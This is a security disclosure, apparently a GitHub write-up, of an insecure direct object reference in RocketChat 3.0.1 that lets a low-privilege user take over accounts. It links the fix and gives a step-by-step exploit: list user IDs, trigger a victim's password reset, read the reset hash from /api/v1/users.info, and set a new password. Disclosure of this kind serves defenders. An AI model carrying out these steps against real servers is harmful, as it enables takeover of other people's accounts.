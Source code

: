 # RocketChat

Application: RocketChat 3.0.1 (web)
Weakness:	Insecure Direct Object Reference (IDOR)
Reported Date: Apr 7, 2020
Disclosed Date:	June 14, 2020

# What was the Problem?
I find user reset password hash info and other security info on "/api/v1/users.info" with low level user 

# Impact
account takeover

# How do I fix it?:
rocketchat has a fix for this: https://github.com/RocketChat/Rocket.Chat/pull/17238
update your application

# Exploit:
note1: I login on rocketchat with ldap account (my role : user)

note2: in request "https://target/api/v1/users.info?username=[x]" you should change username to userId

1- please login with user ldap account (role user)

2- send a request to https://target/api/v1/users.list and copy _id value

3- send a request to https://target/api/v1/users.info?userId=[userId] and copy email value (in response you can see important security information )

4- logout and click "forget your password" link on https://target/home and send an email to above email address that you copied

5- login with Your account and send a request to https://target/api/v1/users.list and search the same email in response and copy _id value

6- send a request to https://target/api/v1/users.info?userId=[userId] and copy reset hash value

7- logout your account and send a request to https://target/reset-password/[reset_hash]

8- set new password

9- login and enjoy
